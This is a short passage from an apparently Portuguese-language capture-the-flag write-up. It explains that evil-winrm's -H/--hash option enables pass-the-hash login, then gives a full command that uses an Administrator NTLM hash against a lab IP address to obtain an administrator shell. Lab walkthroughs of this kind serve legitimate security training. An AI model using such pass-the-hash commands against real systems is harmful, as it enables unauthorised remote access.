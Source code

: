 ![evil-winrm](evil-winrm.png)

Assim podemos ver que as flags "`-H, --hash`" é o que nos permite usar um hash.

![task](task_7.png)

---

## **<a id="8"> • Flag Submission Panel.</a>**

Vamos utilizar o "`evil-winrm -i 10.10.185.51 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc`" para obter uma shell como Administrador.

![evil-winrm](shell.png)

